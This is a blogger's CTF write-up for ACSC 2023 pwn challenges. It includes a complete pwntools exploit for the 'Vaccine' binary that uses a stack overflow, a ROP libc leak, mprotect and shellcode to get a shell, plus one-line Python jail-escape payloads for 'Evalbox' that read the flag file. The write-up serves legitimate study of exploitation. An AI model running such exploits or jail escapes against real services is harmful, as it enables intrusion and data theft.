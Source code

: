 ```yaml
---
title: 「PWN」【ACSC 2023】Writeup WP 复现
authors: [nova]
tags: ['CTF', 'Pwn', 'writeup', 'wp']
---
```


This is an individual competition, but I have already forgot things for Web or Rev, let along Crypto. Meanwhile, we can not solve the hard challenges, so uh-hum, let's just say I'm not participate for the sake of the ranks LOL

<!--truncate-->

## Vaccine

The program uses a `scanf` to receive our input, therefore we have no length limit, and we can just modify *s* to be the same as *s2*.

![image-20230227192106762](https://cdn.novanoir.moe/img/image-20230227192106762.png)

Then, we'll be able to leak the libc_address and ret2libc by simply doing a stack overflow and changing the return address.

At first, I used a wrong libc version and there's no one_gadgets available, so I used the `mprotect` and shellcode to get the shell, which makes all things complicated.

exp:

```python
from pwn import *

context(log_level='DEBUG', arch='amd64', os='linux')
context.terminal = "wt.exe nt bash -c".split()

sh = process(['./vaccine'])
sh = remote('vaccine-2.chal.ctf.acsc.asia', 1337)
elf = ELF('./vaccine')
# libc = ELF('./libc6-i386_2.31-9_amd64.so')  # wrong libc lol
libc = ELF('/home/nova/glibc-all-in-one/libs/2.31-0ubuntu9.9_amd64/libc.so.6')

pop_rdi_ret = 0x401443
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

# gdb.attach(sh, 'b *0x00000000004013D7')
# pause()
payload = b'AAAA' + b'\x00'*108 + b'AAAA\x00'
payload = payload.ljust(0x108, b'\x00')
payload += p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(0x401236)
sh.sendlineafter(b'Give me vaccine: ', payload)
sh.recvuntil(b'castle\n')

libc_base = u64(sh.recv(6).ljust(8, b'\x00')) - 0x84420
mprotect = libc_base + libc.sym['mprotect']
read = libc_base + libc.sym['read']
pop_rsi_ret = libc_base + 0x02601f
pop_rdx_r12_ret = libc_base + 0x119211

print(hex(libc_base))
payload = b'AAAA' + b'\x00'*108 + b'AAAA\x00'
payload = payload.ljust(0x108, b'\x00')
payload += p64(pop_rdi_ret) + p64(elf.bss() & (~0xfff)) + p64(pop_rsi_ret) + p64(0x1000) + p64(pop_rdx_r12_ret) + p64(7)*2 + p64(mprotect)
payload += p64(pop_rdi_ret) + p64(0) + p64(pop_rsi_ret) + p64(elf.bss() + 0x50) + p64(pop_rdx_r12_ret) + p64(0x1000)*2 + p64(read) + p64(elf.bss() + 0x50) + p64(0x401236)
sh.sendlineafter(b'Give me vaccine: ', payload)

sh.sendline(asm(shellcraft.sh()))

sh.interactive()
```



## Evalbox

This is a really interesting challenge.

```python
#!/usr/bin/env python3
import seccomp

if __name__ == '__main__':
    f = seccomp.SyscallFilter(defaction=seccomp.ALLOW)
    f.add_rule(seccomp.KILL, 'close')
    f.load()
    eval(input("code: "))
```

It will `eval` anything we input, but it also prohibit all functions calling for `close`

In `Dockerfile`, we know that we should first get the filename of the flag.

At first I though it might be some differences between `seccomp.so` and [seccomp.pyx](https://github.com/seccomp/libseccomp/blob/main/src/python/seccomp.pyx). So I tried to compile this `.pyx` file and try using bindiff between this two files, but I failed :(



But there's actually many ways to bypass this jail.

### solve 1

This exp is in a pure python way.

we can use `os.scandir(os.open(".", 0))` to get all files in `.` directory, and we can use `print(os.open(filename, 'r').read())` to get the content of the file.

let's just shorten it with only one line.

```python
print(os:=__import__('os'), d:=os.scandir(os.open(".", 0)), f:=open(next(filter(lambda x: x.name.startswith("flag"), d))), f.read(), sep='\n\n')
```



### solve2

we can open `/proc/self/mem` and write shellcode on `.text` segment.

```
print(os:=__import__('os'), f:=open('flag-31540753807ba7099ea27997ca43e280.txt', 'r'), f.read())
```

